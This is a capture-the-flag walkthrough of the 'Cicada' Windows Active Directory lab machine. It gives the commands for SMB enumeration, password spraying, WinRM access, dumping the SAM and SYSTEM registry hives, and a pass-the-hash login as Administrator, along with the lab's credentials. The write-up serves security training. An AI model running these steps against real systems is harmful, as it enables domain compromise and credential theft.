
IP Address: 10.10.11.35
OS: Windows
Difficulty: Easy
First, let's perform a Nmap scan against the target system.
sudo nmap -sC -sV -vv -T5 10.10.11.35 -oA Nmap/Cicada.nmap
and we get the following output:
Not shown: 988 filtered tcp ports (no-response)
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-18 21:38:06Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after: 2025-08-22T20:24:16
| MD5: 9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
...................................
...................................
445/tcp open microsoft-ds? syn-ack ttl 127
464/tcp open kpasswd5? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after: 2025-08-22T20:24:16
| MD5: 9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
...................................
...................................
|_ssl-date: TLS randomness does not represent time
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after: 2025-08-22T20:24:16
| MD5: 9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
...................................
...................................
|_ssl-date: TLS randomness does not represent time
3269/tcp open ssl/ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after: 2025-08-22T20:24:16
| MD5: 9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
| -----BEGIN CERTIFICATE-----
...................................
...................................
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: 7h00m00s
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 43674/tcp): CLEAN (Timeout)
| Check 2 (port 19434/tcp): CLEAN (Timeout)
| Check 3 (port 62917/udp): CLEAN (Timeout)
| Check 4 (port 25229/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
| date: 2025-01-18T21:38:51
|_ start_date: N/A
We see that we have many ports open in this machine, seems to be a part of an active directory windows server. Therefor, let's try with the SMB Share first.
smbclient -L //10.10.11.35 -U 'anonymous'

Here we see a file called as HR, which looks interesting to find out. So, let's try to access the contents present in the HR file by connecting to the file share
smbclient //10.10.11.35/HR -U "anonymous"

We find a file called Notice from HR.txt which might have some useful contents for us to exploit, therefor, let's download the file and then read the contents of it
get "Notice from HR.txt"

We find a password in the contents of the file of a user present in the server: Cicada$M6Corpb*@Lp#nZp!8
Let's now try to get the list of usernames/ users present in the server:
crackmapexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute

Let's add the SidTypeUser tagged usernames into a file.

Now, let's try the password against these users.
nxc smb 10.10.11.35 -u username.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'

NICE!!!!!! We get a username for this password: michael.wrightson
Using this username's let's check for other users who are present in the server.
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users

Found another user david.orelious with his password shown to us in clear text: 'aRt$Lp#7t*VQ!3'
Using this user, let's login to the SMB share to the DEV folder.
smbclient //10.10.11.35/DEV -U "david.orelious"

Download the Backup_script.ps1 file to your local computer and then look at the file contest of it.
get Backup_script.ps1

HERE!!!!!!!!!!!!!!!!!! We the new user emily.oscars and his/her password: Q!3@Lp#M6b*7t*Vt
Let's enumerate this user using a tool called evil-winrm
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

With this we have compromised the user!!! We can find the user flag in the Desktop folder

To perform escalation, let's go to the root directory of the system and create a folder for us to copy some of the registry files onto the folder.
mkdir Temp1
Now, save the files to this folder:
reg save hklm\sam C:\Temp1\sam
reg save hklm\system C:\Temp1\system

Once you save the registry files, download the files to your local system:
download sam
download system

Once the files are downloaded into the system, open another terminal and then generate the registry hash of the Administrator user.
pypykatz registry --sam sam system

evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'

Now the root flag is in the Administrator's Desktop!
Instagram: @Pranava__Rao
Linked: Pranava Rao
X: @Pranava__Rao
GitHub: Pranava Rao
YouTube: @Pranava__Rao